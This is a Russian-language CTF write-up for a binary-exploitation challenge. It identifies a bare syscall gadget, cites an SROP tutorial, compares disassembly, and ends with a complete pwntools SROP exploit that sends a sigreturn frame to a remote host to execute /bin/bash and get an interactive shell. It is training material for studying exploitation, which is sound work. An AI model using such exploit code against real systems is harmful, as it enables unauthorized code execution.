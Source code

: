 
1. Откроем файл task и увидим в функции main() следующее содержимое:
```

void entry(void)

{
  syscall();
  return;
}

```
2. Видим syscall и понимаем, что нам нужен SROP для решения.
3. В самом конце файла записана строка `/bin/bash` которая и должна быть передана в качестве аргумента для `syscall`
4. Находим подходящую статью по SROP в учебнике по PWN - [вот ссылка](https://ir0nstone.gitbook.io/notes/types/stack/syscalls/sigreturn-oriented-programming-srop/using-srop)
5. Пример в статье очень напоминает нам наш файл.
 Вот как это выглядит в статье:
 ```
 from pwn import *

  context.arch = 'amd64'
  context.os = 'linux'
  
  elf = ELF.from_assembly(
      '''
          mov rdi, 0;
          mov rsi, rsp;
          sub rsi, 8;
          mov rdx, 500;
          syscall;
          ret;
          
          pop rax;
          ret;
      ''', vma=0x41000
  )
  elf.save('vuln')
  ```
 И вот как у нас:
 ```
 00041000 48 c7 c7        MOV        RDI,0x0
       00 00 00 00
 00041007 48 89 e6        MOV        RSI,RSP
 0004100a 48 83 ee 08     SUB        RSI,0x8
 0004100e 48 c7 c2        MOV        RDX,0x1f4
       f4 01 00 00
 00041015 0f 05           SYSCALL
 00041017 c3              RET
 00041018 58              POP        RAX
 00041019 c3              RET
   ```
6. Пишем эксплойт по гайду и получаем такой код:
```
from pwn import *

elf = context.binary = ELF('./task', checksec=False)
p = remote('192.168.12.13', 1555)

BINSH = elf.address + 0x1430
POP_RAX = 0x41018
SYSCALL_RET = 0x41015

frame = SigreturnFrame()
frame.rax = 0x3b  
frame.rdi = BINSH          
frame.rsi = 0x0          
frame.rdx = 0x0           
frame.rip = SYSCALL_RET

payload = b'A' * 8
payload += p64(POP_RAX)
payload += p64(0xf)
payload += p64(SYSCALL_RET)
payload += bytes(frame)

p.sendline(payload)
p.interactive()
```
7. Профит
